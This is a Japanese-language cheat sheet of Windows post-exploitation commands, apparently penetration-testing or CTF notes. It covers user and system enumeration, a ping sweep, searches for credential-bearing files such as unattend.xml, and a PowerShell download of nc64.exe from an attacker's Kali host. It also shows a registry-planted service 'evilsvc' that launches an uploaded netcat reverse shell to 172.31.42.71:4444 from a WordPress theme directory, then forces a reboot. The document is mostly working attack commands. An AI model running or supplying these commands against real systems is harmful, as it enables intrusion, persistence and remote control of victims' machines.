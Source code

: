 # windows command

* net XXX

``` bat
    # ユーザ情報
    net user
    または
    wmic USERACCOUNT Get Domain,Name,Sid
    # ログオンとかパスワード条件とか
    net accounts
    # ローカルグループ情報
    net localgroup
```

* tasklist

``` bat
    tasklist /SVC
```

* システム情報

```bat
    systeminfo
    または
    wmic computersystem LIST full
```

* マウント情報(共有ドライブとか)

``` bat
    mountvol
    共有ドライブ
    powershell -Command "Get-WmiObject -class Win32_Share"
```

* ping sweep

``` bat
    for /l %i in (1,1,255) do @ping -n 1 -w 100 XXX.XXX.XXX.%i | fiond "TTL="
```

* ファイル検索

``` bat
    dir /s *<file_name>*
    または
    wmic DATAFILE where "drive='C:' AND Name like '%<file_name>%'" GET Name,Readable,size /VALUE

    # 検索でよく使うファイルパターン
    *.txt/*.doc/*.xls/*.one/*.cnf/unattend.xml
```

* ファイル転送

``` powershell
    powershell -NoProfile -ExecutionPolicy unrestricted -Command (Invoke-WebRequest -Uri "http://<Remote KaliのIP>:8000/nc64.exe" -OutFile "nc64.exe")
```

* kaliにあるwindowsで実行可能なファイル
  
    `/usr/share/windows-binaries`

* windows reverse shell
  * windowsサービス

``` bat
    #wordpressから[nc.exe]をfile uploadする必要がある。
    reg add HKLM\SYSTEM\CurrentControlSet\Services\evilsvc /t REG_EXPAND_SZ /v ImagePath /d "cmd /c \"C:\inetpub\wwwroot\wordpress\wp-content\themes\twentytwenty\nc.exe 172.31.42.71 4444 -e cmd\"" /f

    #再起動できる場合は再起動
    shutdown /r /t 0
```

* サービス登録

``` batch
    # サービス登録コマンド
    # notepad.exeをシステム起動時に自動起動するサービスを登録するコマンド 
    sc create notepad binpath= "C:¥Windows¥system32¥notepad.exe" start=auto
    # 
    sc qc evilsvc
```
